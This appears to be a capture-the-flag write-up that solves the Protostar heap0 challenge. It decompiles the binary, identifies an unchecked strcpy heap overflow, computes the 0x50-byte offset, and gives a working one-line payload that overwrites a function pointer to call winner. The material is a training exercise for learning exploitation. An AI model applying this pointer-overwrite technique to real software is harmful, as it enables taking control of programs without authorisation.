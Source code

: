 # protostar heap 0

Let's take a look at the binary. Also this challenge is a bit different from the others, the goal is to run the `winner` function. Also I recompiled this challenge from source:

```
$    file heap0
heap0: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=ca0d25fb47b05e42811810bf08e5376b33f64501, not stripped
$    pwn checksec heap0
[*] '/Hackery/pod/modules/heap_overflow/protostart_heap0/heap0'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
$    ./heap0
data is at 0x56fde160, fp is at 0x56fde1b0
Segmentation fault (core dumped)
$    ./heap0 15935728
data is at 0x56c08160, fp is at 0x56c081b0
level has not been passed
```

So we can see it prints out what looks like two heap addresses, and takes in input as an argument. In addition to that we see that there is no PIE, and it is a 32 bit binary. When we take a look at the main function in Ghidra, we see this:

```
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(undefined4 param_1,int param_2)

{
  char *ptr0;
  undefined **ptr1;
 
  ptr0 = (char *)malloc(0x40);
  ptr1 = (undefined **)malloc(4);
  *(code **)ptr1 = nowinner;
  printf("data is at %p, fp is at %p\n",ptr0,ptr1);
  strcpy(ptr0,*(char **)(param_2 + 4));
  (*(code *)*ptr1)();
  return 0;
}
```

So we can see a few things. First that it allocates two separate heap chunks, one `0x40` bytes big and the other just `4` bytes (`ptr0` and `ptr1`). Then it sets `ptr1` equal to the function `nowinner`. After that it prints the value of `ptr0` and `ptr1` (so that is where our two heap addresses come from). Proceeding that it copies over the input we gave it via an argument to `ptr0`, however doesn't check for an overflow. This gives us a heap overflow bug. Proceeding that it executes the address pointed to by `ptr1`.

So we have an overflow. With it we will use it to overwrite the value of `ptr1` to be that of the `winner` function. When we ran it, we can see that `ptr0` was at `0x56c08160` and `ptr1` was at `0x56c081b0` (for the second iteration of running it). So after `0x56c081b0 - 0x56c08160 = 0x50` bytes of space between the start of our input and the instruction pointer stored in `ptr1`. Next we need the address of `winner`:

```
$    objdump -D heap0 | grep winner
080484b6 <winner>:
080484e1 <nowinner>:
```

With that, we have everything we need to solve the challenge:

```
$    ./heap0 `python -c 'print "0"*0x50 + "\xb6\x84\x04\x08"'`
data is at 0x98ac160, fp is at 0x98ac1b0
level passed
```
